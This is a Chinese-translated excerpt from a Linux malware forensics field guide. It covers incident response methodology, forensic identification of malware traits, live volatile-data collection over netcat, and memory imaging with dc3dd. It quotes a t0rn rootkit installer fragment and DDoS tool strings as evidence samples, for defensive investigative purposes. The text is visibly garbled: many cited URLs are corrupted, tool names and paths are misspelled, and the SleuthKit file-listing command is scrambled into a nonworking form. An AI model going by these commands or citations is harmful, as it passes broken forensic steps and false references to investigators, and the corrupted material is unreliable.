# Linux恶意软件事件响应： volatile数据取证收集与检查实践者指南： Linux系统恶意软件取证场指南节选

# 引言

自 2008 年出版《恶意软件取证：调查与分析恶意代码》*Malware Forensics: Investigating and Analyzing Malicious Code* 以来，¹ 开发用于恶意和非法目的的程序的数量和复杂度已大幅增长。最新的赛门铁克互联网安全威胁报告宣布，2011 年出现了超过 4.03 亿个新威胁。² 其他杀毒软件供应商，包括 F-Secure，也记录了针对移动设备（特别是 Android 平台）和 Mac OS X 的恶意软件攻击近期增加，以及由更复杂和组织化的黑客行动主义者和国家支持的行为体实施的攻击。³

过去，恶意代码通常根据其功能性和攻击向量被整齐地分类（例如，病毒、蠕虫或特洛伊木马）。如今，恶意软件往往是模块化和多面的，更像是一种具有多样化功能和传播手段的“混合威胁”。许多此类恶意软件的开发是为了支持日益组织化和专业化的电脑罪犯。事实上，犯罪分子正在大量利用恶意软件来控制计算机并窃取个人、机密或专有信息以牟利。⁴ 在 Trident Breach 行动中，⁵ 数百人因涉嫌使用 Zeus 等恶意软件进行数字盗窃而被逮捕。一个蓬勃发展的灰色市场确保了今天的恶意软件是经过专业开发的，以避免被当前的反病毒程序检测，从而保持其价值并可供任何具备网络素养的犯罪团伙使用。

日益引起关注的是通过计算机破坏发电厂和其他关键基础设施的恶意软件开发，有些人将其称为网络战争。过去几年出现的 StuxNet 和 Duqu 恶意软件有力地展示了此类攻击的潜在能力。⁶ 这种复杂的恶意软件使攻击者能够通过访问连接到目标计算机的可编程逻辑控制器来改变工业系统（如核反应堆中的系统）的运行。此类攻击可能会关闭发电厂或社会关键基础设施的其他组成部分，从而可能对目标地区的人员造成重大伤害。

- ¹<http://www.syngress.com/digital-forensics/Malware-Forensics/>。
- ²<http://www.symantec.com/threatreport/>。
- ³<http://www.f-secure.com/en/web/global_$boba/2012/01/2011-threat-summary/>。
- ⁴<http://money.cnn.com/2012/09/04/technology/malware-cyber-attacks/>。
- ⁵<http://krebsonsecurity.com/blog/operation-trident-breach/>。
- ⁶<http://www.symantec.com/connect/blogs/sixteen-introduces-first-known-rootkit-scada-devices/>；<http://www.symantec.com/content/en/us/enterprise/media/security_response/whitepapers/w32_stuxnet_dossier.pdf>。


外国政府正在资助高技能黑客团队，开发定制化的恶意软件，以支持工业和军事间谍活动。对谷歌系统的入侵展示了此类攻击者的先进且持久的能力。这种高度组织化的攻击旨在维持对组织网络的长期访问，这种通过互联网实施的间谍活动形式被称为“高级持续性威胁”（APT）。随着利用恶意软件进行间谍活动、犯罪及发起网络攻击的案例日益增多，越来越多的数字取证调查员开始使用过去主要由杀毒软件供应商和安全研究人员掌握的恶意软件分析技术和工具。

此外，反安全组织（如 AntiSec、Anonymous 和 LulzSec）正利用各种各样的技术和恶意工具，未经授权地访问计算机系统。

无论是为了满足移动、云还是 IT 基础设施的需求，如今越来越多的主流公司正在其环境中向 Linux 和其他开源平台的实施靠拢。然而，尽管恶意软件开发者常因市场份额和操作系统普及率而针对 Windows 平台，Linux 系统也并非对恶意软件的侵害免疫。由于 Linux 多年来保留了许多相同的特性和组件，一些自 2004 年以来存在的 rootkit 至今仍在使用。例如，Adore 工具包、被特洛伊木马化的系统二进制文件和 SSH 服务器仍被用于受感染的 Linux 系统，其中包括未被 Linux 安全工具和杀毒软件检测到的变种。此外，许多新的恶意软件变种——后门、特洛伊木马、蠕虫、rootkit 和混合威胁——也针对 Linux 系统。

在过去五年中，计算机入侵者在 Linux 恶意软件攻击中展现了更多的努力和独创性。Linux 僵尸网络的出现，其感染向量针对 Web 服务器，攻击功能侧重于利用弱 SSH 凭据进行系统的暴力破解访问。基于 Windows 的流行恶意软件的成功促使恶意软件攻击者开发跨平台变种，以最大化感染潜力，例如 2011 年攻击 Linux 和 Macintosh 系统的基于 Java 的 Trojan.Inanobot，以及 2012 年的跨平台 Wirenet 特洛伊木马。

或许最令人担忧的是针对 Linux 系统的协调性、定向攻击。多年来，有组织的攻击者小组一直在渗透 Linux 系统，显然其唯一目的是窃取信息。这些攻击者中的一些人使用高级恶意软件，旨在破坏常见的安全措施，如用户认证、防火墙、入侵检测系统和网络漏洞扫描器。例如，许多这些 Linux rootkit 并不开放自己的监听端口（这可能触发安全警报），而是注入/劫持现有的运行服务。此外，这些 rootkit 检查传入连接是否具有特殊的“后门”特征，以判断远程连接是否真正属于入侵者，这使得使用网络漏洞扫描器检测后门的存在变得更加困难。这些恶意应用程序还具有与命令与控制（C2）服务器通信并从受感染的 Linux 系统（包括运行 Android 的设备）中渗出数据的能力。

例如，Phalanx2 rootkit 于 2008 年首次公开亮相，当时它被美国计算机应急反应小组（CERT）发现。Phalanx 的这种变种利用了之前已被攻陷的 Linux 系统，这些系统使用窃取的 SSH 密钥进行访问，并进一步通过内核漏洞利用获取 root 权限。拥有 root 权限后，攻击者安装 Phalanx2，并使用如 sshgrab.py 等实用程序捕获受感染系统中的 SSH 密钥和用户密码，并将窃取的身份验证信息（通常与其他信息一起）渗出，以努力延续攻击周期。2011 年，Phalanx 再次成为头条新闻，因为它被攻击者用于攻陷主要的开源项目存储库。

这些针对 Linux 系统的恶意软件事件趋势，加上现代 Linux 恶意软件规避常见安全措施的能力，使得恶意软件事件响应和取证成为任何利用 Linux 系统的组织风险管理策略中的关键组成部分。

本*实践者指南*旨在为实践者提供对抗日益增多的针对 Linux 计算机系统攻击所需的核心知识、技能和工具。

## 如何使用本书

- 本书旨在作为现场战术参考使用。
- 本*实践者指南*旨在帮助数字取证调查员在 Linux 计算机系统中识别恶意软件，收集易失性（以及相关非易失性）系统数据以便进一步调查，并确定恶意软件对目标系统的影响，所有操作均以可靠、可重复、可辩护且记录详尽的方式进行。
- 与*恶意软件取证：调查与分析恶意代码*不同，后者在全文中使用实际案例场景来展示技术和相关工具，本*实践者指南*力求既具战术性又具实用性，采用简洁的大纲格式以便在现场使用，但通过独特的图形图标指示交叉引用，指向补充组件和在线资源，以便在现场和实验室中同时使用。

## 补充组件

- 本*实践者指南*中使用的补充组件包括：
  - *现场访谈问题*：一份组织有序且详细的访谈问答表，可用于响应恶意代码事件时。
  - *现场笔记*：一种结构化且详细的笔记记录方案，作为在现场或实验室响应时的指导和提醒清单。
  - *需要避免的陷阱*：简要列出常见错误以及如何避免这些错误的方法。
  - *工具箱*：供数字取证调查员了解与相应实质性章节主题相关的额外工具的资源。工具箱图标（扳手和锤子）用于通知读者，工具箱附录和本书配套网站 **www.malwarefieldguide.com** 上有额外的工具信息。
  - *精选阅读*：列出与本章节涵盖主题相关的补充阅读材料列表。

## 尾注

7. “新型电子间谍威胁”，见 <http://www.businessweek.com/magazine/content/08_16/b4080032218430.htm>；“中国被指控黑客入侵默克尔政府核心”，见 <http://www.timesonline.co.uk/timelaw/world/europe/article/2332130,ceco>。
8. <http://googleblog.blogspot.com/2011/01/zero-approach-to-china.html>。
9. <http://money.cnn.com/2012/09/04/technology/malware-cyber-attacks/>（一般情况）；<http://www.f-secure.com/weblog/archives/00002266.html>（Anonymous）；<http://h4ckedsecurity.sohpux.com/2012/10/15/lulzsec-hacker-sony-pictures/>（LulzSec）。
10. <http://www.theregister.co.uk/2012/04/04/linuix_boss_buyner_one/>。
11. <http://www.theregister.co.uk/2007/10/30/cbay_paypal_online_banking/>；<http://www.theregister.co.uk/2009/09/12/linuix_zombies_push_malware/>。
12. <http://www.theregister.co.uk/2010/08/12/server_based_botnet/>。
13. <http://www.theregister.co.uk/2011/01/19/mac_linux_bot_vulnerabilities/>。
14. <http://www.forbes.com/sites/antonykosner/2012/08/31/new-trojans-backdoor-malware-targets-mac-os-x-and-linux-steals-passwords-and-keystorers/>；<http://news.techworld.com/security/3378804/linux-users-targeted-by-password-stealing-wirenet-trojan/>；<http://itphohardware.com/News/Ultra-A-Target-Rich-Environment-for-Malware-after-All-Wirenet-Trojan-In-The-Wild/>。
15. <http://www.un-cert.w3c.org/worm/archive/200800027/archive.html#ix,key_based_attack/>；<http://www.theregister.co.uk/2008/08/27/ssh_key_attack_warning/>；<http://www.techrepublish.com/blog/opensource/linux-with-phalanx-2-is-there-a-race-linux-double-standard-when-it-comes-to-security/?6/>；<http://www.thegestrip.com/en/2011/08/31/linux_kernel_security_breach/>；<http://tlhtrapost.com/con/en_us_blogs/kernelorg-linux-site-compromised-08311/>；<http://tlhtrapost.com/en_us/blogs/kernelorg-attackers-may-have-slipped-09011/>；<http://www.informationweek.com/security/attack/linux-foundation-confirms-malware-attack/231601225/>；<http://www.theregister.co.uk/2011/10/04/linux_repository_res/>。


## 调查方法

当在系统上发现恶意软件时，有条理的方法、严谨的分析、稳定的文档记录以及对证据动态变化的关注，其重要性均大于调查时间紧迫性带来的压力。

### 系统化方法

- 本《从业者指南》处理恶意软件事件采用的系统化方法将调查过程分为五个阶段（阶段 1 在本《从业者指南》中有所涵盖；其他阶段在*《Linux 系统恶意软件取证现场指南》*的相关章节中讨论）：
  - 阶段 1：易失性数据的取证保存与检查（第 1 章）
  - 阶段 2：内存检查（第 2 章）
  - 阶段 3：取证分析：硬盘检查（第 3 章）
  - 阶段 4：未知文件的文件画像（第 5 章）
  - 阶段 5：恶意软件样本的动态与静态分析（第 6 章）

- 在这些阶段中，强调了规范化的方法和目标，以帮助数字取证人员重构恶意软件感染周边事件的生动图景，并深入了解恶意软件本身。本书中概述的每个阶段的系统化方法并不意图作为盲目遵循的检查清单；数字取证人员必须始终运用批判性思维，因为内存中往往存在关键的证据，如果不快速且妥善地保存就会丢失。
- 数字取证人员必须接受这样一个现实：他们很少有机会在原始状态下检查数字犯罪现场，因此应当预期会出现一些异常。
- 证据动态变化带来调查和法律上的挑战，使得确定发生了什么变得更加困难，也使得证明证据的真实性和可靠性变得更加困难。
- 数字取证人员在不了解证据如何被改变的情况下得出的任何结论可能是错误的，在法庭上可能受到批评，或者误导调查方向。
- 本《从业者指南》提供的方法和法律讨论旨在通过收集来自活动系统的易失性数据，使用可与入侵者常用的类似工具区分开的工具，来尽量减少证据的动态变化。

## 恶意软件调查中的取证分析

恶意软件调查通常涉及易失性数据的保存与检查；已删除文件的恢复；以及其他时间上、功能上和关系上的计算机取证分析。

---

¹⁷ Casey E. *数字证据与计算机犯罪*. 3rd ed. London: Academic Press; 2011.
¹⁸ 关于 Helix3 Pro 的更多信息，请访问 <http://www.e-fense.com/helix3pro.php>。
¹⁹ 2007 U.S. Dist. LEXIS 46364 (C.D. Cal. June 19, 2007).


## 易失性数据的保存与检查

涉及恶意代码的调查在很大程度上依赖于易失性数据的取证保存。由于操作可疑计算机通常会改变系统状态，因此必须谨慎操作，以最小化对系统的更改；首先收集最易失的数据（即“易失性顺序”，在 RFC 3227：*证据收集和归档指南*^1中有详细描述），并彻底记录所采取的所有操作。

从技术角度来看，响应恶意软件事件而从运行中的系统收集的一些信息是非易失性的。以下子类别旨在阐明从运行中的系统收集的数据的相对重要性。

- **一级易失性数据：** 关键系统详细信息，为调查人员提供关于系统如何被入侵以及入侵性质的洞察。示例包括已登录用户、活动的网络连接以及在系统上运行的进程。
- **二级易失性数据：** 瞬态信息，虽然对调查有益且进一步说明入侵和感染的性质和目的，但对于确定被入侵系统的当前状态并非至关重要。此类数据的示例包括计划任务和剪贴板内容。
- **一级非易失性数据：** 揭示目标系统的状态、设置和配置，可能提供有关系统或网络被入侵和感染方法的线索。一级非易失性数据的示例包括配置设置和审计策略。
- **二级非易失性数据：** 提供历史信息和背景，但对于系统状态、设置或配置分析并非至关重要。示例包括系统事件日志和 Web 浏览器历史记录。

当前关于在 Linux 系统上保存和检查易失性数据和非易失性数据的最佳实践及相关工具，在 *Linux 系统恶意软件取证现场指南*中有所介绍。

## 时间性、功能性和关系性分析

取证分析的主要目标之一是重建犯罪周围的事件。用于犯罪重建的三种常见分析技术是时间性分析、功能性和关系性分析。

时间性分析最常见的形式是时间线，但计算机上存在着如此大量的时间信息，以至于分析这些信息的不同方法仅受限于我们的想象力和当前工具。

- *功能性分析*的目标是理解在犯罪环境中哪些操作是可能的，以及恶意软件在环境中实际的行为（与其能够执行的操作相对）。
- *关系性分析*涉及研究恶意软件组件之间的相互作用，以及涉及恶意软件事件的各个系统之间的相互关系。
    - 例如，恶意软件的某个组件可能很容易被识别为其他更关键组件的下载器，因此可能不需要进一步的深入分析。
    - 类似地，一个被入侵的系统可能是入侵者用于访问其他受感染计算机的主要命令与控制点，并且可能包含关于入侵者在网络上的活动以及其他被入侵系统的最有用证据。
- 这些取证分析技术的具体应用在第 3 章（*死后取证：从 Linux 系统中发现和提取恶意软件及相关痕迹*）中有详细介绍，该章节出自 *Linux 系统恶意软件取证现场指南*。

## 将取证应用于恶意软件

- 对恶意软件进行取证分析需要理解如何区分恶意软件的类特征和个体化特征。

## 类特征与个体化特征

- 熟悉所有形式的所有类型恶意软件是根本不可能的。
- 最佳的调查努力应包括将未知恶意软件与已知样本进行比较，以及开展初步分析，旨在不仅识别样本，还要确定如何最佳地解释该样本。
- 尽管目前存在以杀毒程序和哈希集形式出现的恶意软件样本库，但这些资源远非全面。
- 相反，个别调查人员必须寻找已知样本与证据样本进行比较，并关注被入侵计算机上找到的文件的特征，以确定入侵者使用的工具。此外，对恶意软件样本之间分类学和系统发生关系的更深层次检查可能有助于对目标样本进行分类，并确定其是否属于特定的恶意软件“家族”。

一旦找到与给定数字证据相似的样证，就可以对该样本进行分类。约翰·桑顿（John Thornton）在“取证识别的一般假设和理由”中很好地描述了这一过程：^2

> 在“识别”模式下，取证科学家检查证据物品中是否存在或不存在此前从认证物品中抽象出的特定特征。这种识别比比皆是，并且在取证实验室中如此频繁地进行，涉及如此多的不同证据类别，以至于取证科学家往往意识不到在此过程中采取的具体步骤。没有必要手持那些认证物品，但取证科学家必须能够访问抽象出的信息。例如，一把晦涩的 19 世纪匈牙利左轮手枪可以被识别为一把晦涩的 19 世纪匈牙利左轮手枪，即使取证科学家从未实际见过它，并且不太可能再次见到。这是可能的，因为该手枪在文献中得到了充分描述，并且文献对科学家是开放获取的。其有效性取决于既定测试的应用，这些测试已被已知标准材料的详尽测试确定是准确的。
>
> 在“比较”模式下，取证科学家将 questioned 证据物品与另一物品进行比较。第二个物品是“已知物品”。已知物品可能是实验室为此目的维护的标准参考物品（例如认证的可卡因样本），或者是本身即为案件中证据一部分的样证样本（例如犯罪现场破碎的玻璃或油漆样本）。必须手持该物品。Questioned 物品和已知物品逐特征进行比较，直到检查员满意认为这些物品足够相似，从而得出结论它们在某种方式上相关。
>
> 在比较模式下，考虑的特征可能已经确立，也可能尚未确立。它们是否已经确立并经过评估，主要取决于（1）检查员的经验，以及（2）遇到该类型证据的频率。在得出结论之前，取证科学家必须确定特征。这说起来容易做起来难，并且可能需要从头开始的研究，以应对观察到的特征的重要性。例如，取证科学家将犯罪现场的鞋印与嫌疑人的鞋子进行比较。检查员注意到鞋底纹路设计中的轻微不规则性，但不确定这些特征是该鞋独有的真实个体特征，还是该制造商生产的数千双鞋中常见的脱模痕迹。这类问题在取证科学中很常见，绝非微不足道。

- 恶意软件的来源本身是一种独特的特征，可能用于区分一个样本与另一个样本。
    - 能够证明给定的数字证据样本起源于嫌疑人的计算机，可能足以将嫌疑人与犯罪联系起来。
    - 例如，用于攻击 Yahoo! 和其他大型 Internet 网站的拒绝服务攻击工具包含了有助于定位攻击来源的信息。
    - 作为一个例子，从分布式拒绝服务攻击工具中提取的 IP 地址和其他特征在图 I.1 中显示。

```text
socket
bind
recvfrom
%s %s %s
a1f3YWfO\OwV. PONG "HELLO"
10.154.101.4
192.168.76.84
```

**图 I.1—** 可疑恶意软件中的个体化特征。

- 末尾经过净化的 IP 地址表明了恶意软件使用的命令和控制服务器在互联网上的位置，并且这些命令和控制系统可能包含有用的数字证据。
- 类特征也可以建立入侵者与犯罪现场之间的联系。例如，“t0rn”安装文件包含了入侵者选择的用户名和端口号，如图 I.2 所示。

```bash
#!/bin/bash
# t0rnKit9+linux bought to you by t0rn/etc/!x0rg

# Define ( You might want to change these )
 $pass=owned
 $port=31337
```

**图 I.2—** 可疑恶意软件中的类特征。

如果在其他被入侵的主机或嫌疑人的计算机上发现相同的特征，这些特征可以与其他证据相关联，以证明是同一入侵者负责所有这些犯罪，并且攻击是从嫌疑人的计算机发起的。例如，

^1 <http://www.faqs.org/rfcs/rfc3227.html>.
^2 Thornton JJ (1997). The general assumptions and rationale of forensic identification. In: Faigman DL, Kaye DJ, Saks MJ, Sanders J, editors. *Modern scientific evidence: the law and science of expert testimony*, vol. 2. St. Paul, MN: West Publishing Co.


## 引言



**图 I.3** — 检查多个受害系统以寻找相似痕迹。

对 IP 地址为 192.168.0.7 的用于入侵 192.168.0.3 的计算机进行检查，发现了以下有助于建立联系的痕迹（**图 I.3**）：

- 请注意，恶意软件开发人员仍在不断寻找破坏取证分析的新方法。例如，我们在 Linux 恶意软件中遇到了以下反取证技术（尽管这份清单远非详尽无遗，并且肯定会随时间发展而变化）：
  - 多组件
  - 条件和混淆代码
  - 加壳和加密
  - 检测调试器、反汇编器和虚拟环境
  - 在编译 ELF 文件过程中去除符号和调试信息

数字取证调查员可以使用多种工具和技术来克服这些反取证措施，其中许多在本书中都有详细介绍。请注意，高级反取证技术所需的知识和编程技能超出了本书的范围。
关于逆向工程的更深入内容，请参阅《*IDA Pro 手册：全球最流行反汇编器的非官方指南*》[^23]。

## 从恶意软件分析到恶意软件取证

> ☑ 混合式恶意软件威胁已经到来；对深入、可验证的代码分析和规范化文档的需求随之产生，并催生了一个新的取证学科。

- 在旧时光里，数字取证调查员可以相对轻松地发现和计算机系统中的恶意代码。像 t0rnkit 这样的 UNIX rootkit 对受损系统的取证分析几乎没有造成破坏。由于大多数恶意软件的功能很容易观察到，因此数字调查员对代码进行深入分析的需求很小。在许多情况下，信息安全领域的某人会对某段恶意软件进行基本的功能分析，并将其发布在网络上。

- 虽然昔日的恶意软件根据功能和攻击向量（病毒、蠕虫、木马）可整齐地划分为不同的类别，但今天的恶意软件样本通常是模块化的、多方面的，并因其多样化的功能和传播方式而被称为*混合威胁*。²⁴ 而且，随着计算机入侵者越来越熟悉数字取证技术，恶意代码的设计越来越多地旨在阻碍有意义的分析。

- 通过采用阻碍逆向工程、编码和隐藏网络流量以及最小化文件系统上留下痕迹的技术，恶意代码开发人员使得发现和取证分析变得更加困难。这一趋势始于 UNIX 上的内核可加载 rootkit，并演变为 Windows 和 Linux 系统上的类似隐藏方法。

- 如今，各种形式的恶意软件正在扩散，自动传播（蠕虫行为），提供远程访问控制（木马/后门行为），有时还会在受损主机上隐藏其活动（rootkit 行为）。此外，恶意软件已经进化，能够污染跨平台、云和 BYOD 环境，破坏安全措施，禁用防病毒工具，并通过从内部网络连接到外部命令和控制服务器来绕过防火墙。

- 恶意代码开发人员采取如此极端措施保护其作品的主要原因之一是，一旦恶意软件的功能被解码，数字取证调查员就知道要在受损主机和网络流量中查找哪些痕迹和模式。事实上，从恶意软件中提取的丰富信息使其成为入侵调查和身份盗窃案件中不可或缺且必不可少的一部分。在许多情况下，受损主机上留下的证据很少，而大部分有用的调查信息都存在于恶意软件本身中。

> 恶意软件分析在数字取证调查中日益重要，以及恶意代码的日益复杂，推动了针对恶意软件进行手术和尸检的工具和技术的发展。随着越来越多的调查依赖于理解和对抗恶意软件，对规范化和支持文档的需求也随之增长。恶意软件分析的结果必须准确且可验证，达到可以在调查或起诉中作为证据被依赖的程度。因此，恶意软件分析已成为一门取证学科——欢迎进入*恶意软件取证*时代。

## Linux 恶意软件事件响应

### 本章解决方案

- 易失性数据收集方法
  - 本地与远程收集
  - 易失性数据的保存
- 物理内存获取
- 收集目标系统详细信息
- 识别已登录用户
- 当前和最近的网络连接
- 收集进程信息
- 将开放端口与运行进程和程序相关联
- 识别服务和驱动程序
- 确定打开的文件
- 收集命令历史
- 识别共享
- 确定计划任务
- 收集剪贴板内容
- 从活动的 Linux 系统中收集非易失性数据
- 存储介质的取证复制
- 选定数据的取证保存
- 评估安全配置
- 评估受信任主机关系
- 收集登录和系统日志

### 工具箱附录和网站

本书中出现的“”符号表示，关于该主题的附加实用程序在本书的工具箱附录中进行了讨论，该附录位于本从业者指南的末尾。本章的更多工具信息和更新可在配套的网站 Malware Field Guides 上找到，网址为 [http://www.malwarefieldguide.com/LinuxChapter1.html](http://www.malwarefieldguide.com/LinuxChapter1.html)。

## 引言

正如手术和验尸各有其时，对于可能已受损的计算机，需要进行活动的取证检查，而不是对磁盘的取证副本进行深入检查。保存来自活动系统的数据通常是为了确定是否已安装恶意代码所必需的，在恶意软件事件初始阶段收集的易失性数据可以提供有价值的线索，包括识别恶意软件正在与其通信的远程服务器。

在最近的一项调查中，入侵者通过位于西欧的一台中间计算机连接到美国受损的系统。数字取证调查员无法获得西欧受损系统的取证副本，但该系统的拥有者确实提供了易失性数据，包括 *netstat* 输出，这揭示了来自东欧某台计算机的活动连接，而入侵者实际上就位于那里。

本书展示了保存易失性数据的价值，并提供了关于以取证上可靠的方式保存此类数据的实用指南。易失性数据的价值不仅限于与恶意软件相关的进程内存，还可以包括密码、互联网协议（IP）地址、系统日志条目以及其他背景细节，这些都可以提供更完整的对恶意软件及其在系统中使用的理解。

当目标系统通电时，它包含揭示系统状态的关键短暂信息。这种易失性数据有时被称为*有状态信息*。事件响应*取证*，或*活动响应*，是在目标系统保持通电状态下从该有状态信息中获取数据的过程。正如我们在引言中讨论的，在从活动系统收集数据时应考虑易失性顺序，以确保关键系统数据在丢失或系统关机之前被获取。此外，由于本书的范围涉及通过恶意代码事件视角下的活动响应，本从业者指南中概述的保存技术并不旨在全面或详尽，而是提供关于活动系统中恶意软件的坚实基础。

### 分析提示

**反监控**

如果恶意入侵者发现其在受损系统上的活动已被发现，他们通常采取某些行动。这些行动可能包括销毁受损系统上的证据以及设置额外的后门以维持对受损系统的长期未授权访问。因此，在执行初始响应操作和保存活动系统上的易失性数据时，重要的是要采取预防措施，以免惊动入侵者并防止持续的未授权远程访问。这可能包括清理活动响应的任何残留物，例如命令历史，并确保不在系统上留下任何活动响应命令的输出。


通常，恶意代码的活体响应是一个动态过程，每个事件的事实和背景决定了调查人员推进其调查的方式和手段。与其他取证场景（在这些场景中，只需获取目标系统硬盘的取证复制镜像即可满足需求）不同，针对目标系统上的恶意代码事件进行调查几乎总是需要一定程度的活体响应。这是因为调查人员识别恶意软件感染性质和范围所需的大量信息都存在于状态信息中，而这些信息在计算机关机后会丢失。

本书提供了一种在 Linux 系统上保留易失性数据的整体方法论，并假设数字取证调查人员已经建立了由受信任工具组成的活体响应工具包，或者正在使用专门设计用于在事件响应期间从 Linux 系统自动收集数字证据的工具套件。

有许多原生的 Linux 命令可用于从运行中的计算机收集易失性数据。由于被入侵系统上的命令可能被恶意软件破坏而无法信任，因此有必要使用一组对目标操作系统交互最少的工具实用程序来捕获易失性数据。使用此类受信任的二进制文件是任何活体检查的关键部分，可以揭示被 rootkit 隐藏的信息。然而，当涉及到可加载内核模块 (LKM) rootkit 或自我注入型 rootkit（如 Adore 或 Phalanx）时，底层系统调用和查找表会被劫持，甚至不依赖于目标系统组件的静态编译二进制文件也无效，这使得必须依赖内存取证和文件系统取证。

虽然建议通过自动化收集数字证据来避免错误和无意的收集缺口，但本书及其相关附录旨在为数字取证调查人员提供关于活体响应过程以及应收集的数字证据的细致逐步指导。

> **分析技巧：现场访谈**
> 在进行活体响应之前，尽可能多地从相关证人那里收集有关恶意代码事件和目标系统的信息。有关详细信息，请参阅“现场访谈问题”附录。

## 本地 vs. 远程收集

- 选择从目标系统收集数据的方式。
    - 本地*收集*结果意味着将外部存储介质连接到目标系统，并将结果保存到连接的介质上。
    - *远程收集*意味着建立网络连接，通常通过 *netcat* 或 *cryptcat* 监听器，并将获取的系统数据通过网络传输到收集服务器。此方法减少了系统交互，但依赖于通过 *netcat* 监听器建立的端口穿越目标网络的能力。

> 其他远程取证实用程序，如 F-Response 和 FTK，具有一些支持易失性数据收集的功能，并在本书末尾的“工具箱”部分中进行了讨论。

## 调查考虑因素

- 在某些情况下，目标网络具有严格的防火墙和/或代理服务器配置，使得建立远程收集存储库变得繁琐或不切实际。
- 在活体响应期间远程获取某些数据——如对目标系统的物理内存进行成像——可能消耗大量的时间和资源，并且需要数 GB 的数据通过网络传输，具体取决于目标系统中随机存取内存 (RAM) 的数量。*图 1.1* 中展示的一对命令将活体响应实用程序从目标系统获取数据的输出发送到远程 IP 地址 (172.16.131.32)，并在收集系统中将输出保存为名为 `<toolname>20121023host1.txt` 的文件。
- 必须先在执行收集的系统上执行 *netcat* 命令，使其准备好等待接收来自目标系统的数据。
- 在受害者系统较旧且包含过时硬件的情况下，可以推迟本地收集工作，例如 USB 1.1，其最大传输速率为每秒 12 兆比特 (mbps)。

| Subject system -> | -> Collection systems (172.16.131.32) |
| :--- | :--- |
| `<crusted tool> \| nc` | `nc -l -p 13579 > <toolname>20121023host1.txt` |
| 172.16.131.32:13579 | |


- 始终确保您用于获取活体响应数据的介质是洁净的，不包含无关的案例数据、恶意代码样本或来自先前调查的其他痕迹。在“脏”或被污染的介质上获取数字证据可能会污染并削弱所获取数据的取证完整性。

## 易失性数据收集方法

- 在活体系统上运行实用程序之前，在测试计算机上对其进行评估，以记录其对证据系统的潜在影响。
- 应按照介绍中讨论的易失性顺序从活体系统收集数据。提供以下指南，以提供更清晰的易失性数据类型的概念，这些类型可以保留以更好地理解恶意软件。

### 记录收集步骤

- 大多数 Linux 和 UNIX 系统都有一个脚本实用程序，可以记录运行的命令以及每个命令的输出，提供数字取证基石性的支持文档。
    - 调用后，script 记录时间和日期，如图 1.2 所示。

    ```
    Script started on Tue 08 Mar 2011 02:01:19 AM EST
    ```

    

    - Script 在内存中缓存数据，只有在输入“exit”终止时才写入完整的记录信息。默认情况下，script 命令的输出保存在当前工作目录中，但可以在命令行上指定替代的输出路径。

### 易失性数据收集步骤

- 在被入侵的机器上，从工具包运行具有静态编译二进制文件的受信任命令 shell（例如，在旧的非专有版本的 Helix CD 或其他发行版上）。
- 运行 `script` 开始记录您的按键日志。
- 记录计算机的日期和时间，并将其与可靠的时间源进行比较。
- 获取物理内存的内容。
- 收集主机名、IP 地址和操作系统详细信息。
- 收集系统状态和环境详细信息。
- 识别登录到系统的用户。
- 检查网络连接和开放端口及相关活动。
- 检查正在运行的进程。
- 将开放端口与相关进程和程序关联。
- 确定正在访问哪些文件和套接字。
- 检查已加载的模块和驱动程序。
- 检查连接的主机名。
- 检查命令行历史。
- 识别已挂载的共享。
- 检查未授权的账户、组、共享以及其他系统资源和配置。
- 确定计划任务。
- 收集剪贴板内容。
- 确定审计配置。
- 通过输入 `exit` 终止 `script` 以完成按键日志的记录。



### 分析技巧：文件列表

在某些情况下，在活体响应期间使用 The SleuthKit 收集每个分区的文件列表可能有益（例如，在 `dev/hda1 -1r -m / > body.txt` 上使用 `/media/cdrom/Linux-1R/fs`）。例如，将此文件列表与同一系统的取证复制品进行比较，可以揭示 rootkit 正在隐藏特定的目录或文件。此外，如果无法获取取证复制品，这样的文件列表可以帮助确定某些文件何时创建、修改或访问。

## 易失性数据保存

- 首先从目标系统获取物理内存，然后使用活体响应工具保存信息。
- 由于 Linux 是开源的，内存中数据结构的信息更为人所知。Linux 数据结构的透明度不仅涉及数据在内存中的位置，还涉及用于描述进程和网络连接（以及其他活体响应关注项）的数据结构。
- Linux 内存结构是用 C 编写的，可以在每个操作系统版本的 `include` 文件中查看。然而，每个版本的 Linux 具有略微不同的数据结构，这使得开发一种广泛适用的工具变得困难。有关内存取证的详细讨论，请参阅《Linux 系统恶意软件取证现场指南》第二章。


## 调查考量

- 在某些情况下，可能需要从活动受检系统上捕获一些非易失性数据，甚至可能需要创建整个磁盘的法医副本。对于所有保留的数据，请记住，数字调查员必须独立记录活动检查输出的消息摘要 5（MD5）及其他属性。
- 为避免失误和遗漏，易失性数据的收集应实现自动化。本书末尾的工具箱部分讨论了一些常用的事件响应工具套件。

## 活动 Linux 系统上的物理内存获取

> 在使用活动响应工具包中的各种工具收集易失性系统数据之前，首先要从受检系统获取完整的内存转储。

- 在受检系统上运行事件响应工具会改变内存内容。
- 为了从物理内存中获取最多的数字证据，在运行任何其他事件响应流程之前，应先执行完整的内存捕获。
- 有许多工具和方法可用于获取物理内存，且许多具有相似的功能。通常，选择工具和方法取决于熟悉程度和偏好。鉴于每个恶意软件事件都是独特的，正确的方法不仅由事件类型决定，还可能由受害者系统的类型学特征驱动。这里提供了获取物理内存的各种方法，*《Linux 系统恶意软件法医学现场指南》*第二章涵盖了捕获数据的检查内容。

## 本地获取物理内存

> 可以使用命令行或图形用户界面（GUI）实用程序从受检系统本地获取物理内存转储。

### 命令行实用程序

#### 使用 ddd 获取物理内存

捕获 Linux 或 UNIX 系统完整物理内存最简单的方法是运行可信的、静态编译版本的 `dd` 或 `dc3dd` 命令。然而，现代版本的 Linux 限制了内存访问，使得这种更直接的内存获取方法适用性降低。尽管如此，在某些情况下此方法仍然有效。以下示例演示了如何获取物理内存。（图 1.3）。

```bash
# /media/cdrrom/Linux-IR/dc3dd if=/dev/mem > /media/IR/memory/host_physical1mem
```


- `/dev/mem` 和 `/dev/kmem` 是字符设备文件（或“特殊文件”），它们提供对系统内存的访问。
- `/dev/mem` 提供对物理内存的访问；`mem` 中的字节地址被解释为物理内存地址。
- `/dev/kmem` 提供对操作系统内核虚拟地址空间的访问。与 `mem` 不同，`kmem` 使用虚拟内存地址。
- 可以将获取数据的大小与系统中预期的内存量进行比较，以确保已获取所有数据。
